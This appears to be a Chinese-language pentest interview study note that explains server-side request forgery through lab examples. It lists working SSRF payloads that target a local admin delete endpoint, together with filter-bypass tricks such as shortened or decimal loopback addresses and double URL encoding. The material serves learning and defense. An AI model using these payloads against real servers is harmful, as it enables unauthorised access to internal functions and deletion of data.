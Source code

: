 参考：https://developer.mozilla.org/zh-CN/docs/Glossary/Origin



# OWASP-TOP10-2021

https://github.com/h4m5t/Sec-Interview/blob/main/OWASP-TOP10-2021%E4%B8%AD%E6%96%87%E7%89%88V1.0%E5%8F%91%E5%B8%83.pdf

![image-20230425152230786](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XSS笔记\xss笔记.assets\image-20230425152230786.png)



# SSRF

server-side request forgery，服务端请求伪造。

![SSRF](C:\Users\friendship\Desktop\MiscTools\Pentest_Interview\XSS笔记\xss笔记.assets\server-side request forgery.svg)



### Basic SSRF against the local server

这里是由于前段在检查库存的时候会向服务器后端发起一个http的请求，该请求StockAPI的参数是可以控制的，所以这里便导致了SSRF漏洞。



StockApi=http://localhost/admin/delete?username=carlos



## bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

本地回环地址（127.0.0.1）的几种等价写法：

```
Desktop> ping 127.0.0.1
Desktop> ping 127.1  	 # 这里系统在执行的时候会自动填充缺少的两位八字节，解析为：127.0.0.1
Desktop> ping 127.100.100.1
Desktop> ping 127.1.1	 # 解析为127.1.0.1
Desktop> ping 2130706433 # 数字ip
Desktop> ping localhost

当然除了绕过主机地址，对url路劲当中的一些字符串也可以使用url编码的方式进行绕过。一次不行就两次编码，反正多试几次就OK了。
```



### SSRF with blacklist-based input filter

```
stockApi=http://127.1/%25%36%31dmin/delete?username=carlos

# 使用127.1绕过127.0.0.1的限制，%25%36%31是a的双重url编码
```
